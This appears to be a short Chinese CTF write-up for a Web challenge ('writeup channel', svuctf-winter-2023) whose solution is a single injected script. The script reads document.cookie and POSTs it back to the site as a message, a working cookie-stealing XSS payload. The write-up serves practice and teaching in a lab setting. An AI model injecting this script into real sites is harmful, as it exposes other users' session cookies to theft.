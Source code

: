 # 题解分享频道

- 作者：13m0n4de
- 参考：-
- 难度：Baby/Trivial/Easy/Normal/Medium/Hard/Expert/Insane
- 分类：Web
- 镜像：[svuctf-winter-2023/writeup_channel](https://ghcr.io/svuctf/svuctf-winter-2023/writeup_channel:latest)
- 端口：5000

## 题目描述

**请勿分享自己的链接，或点击其他人分享的链接，以免造成安全问题**

> 得到的 Flag 字符串可能被 URL 编码过，注意解码

## 题目解析

```html
<script>
    var form_data = new FormData();
    form_data.append("message", document.cookie);
    fetch("/", {
    	"method": "POST",
    	"body": form_data,
    });
</script>
```
